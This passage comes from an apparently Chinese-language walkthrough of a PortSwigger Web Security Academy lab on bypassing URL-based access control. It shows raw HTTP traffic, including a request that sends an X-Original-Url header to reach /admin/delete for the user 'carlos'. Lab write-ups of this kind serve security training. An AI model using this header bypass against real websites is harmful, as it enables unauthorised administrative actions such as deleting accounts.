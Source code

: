 ```http
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 10710

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>URL-based access control can be circumvented</title>
......
```

知道方法后，成功绕过访问控制。

![特殊请求头 X-Original-Url 绕过访问控制.png](assets/1708584081-dffba2f89c4785bb4a52bf306e5138ff.png)

但是页面上点删除用户提示没权限。

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /admin/delete?username=carlos
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
```